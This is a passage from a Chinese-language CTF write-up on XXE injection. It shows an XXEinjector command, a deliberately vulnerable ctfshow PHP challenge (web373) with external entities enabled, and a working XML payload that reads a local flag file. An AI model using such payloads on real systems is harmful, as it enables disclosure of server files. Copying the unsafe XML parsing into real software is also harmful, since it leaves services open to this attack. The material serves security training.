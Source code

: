 记录请求信息：

```
ruby XXEinjector.rb --logger --oob=http--output=/tmp/out.txt
```

## 靶场题目

### [web373]

有回显XXE，外部实体

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 13:36:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}
highlight_file(__FILE__);    
```

payload：

```xml
<!DOCTYPE hacker[
    <!ENTITY hacker SYSTEM "file:///flag">
]> 
<root>
	<ctfshow>
	&hacker;
	</ctfshow>
</root>
```

### [web374]
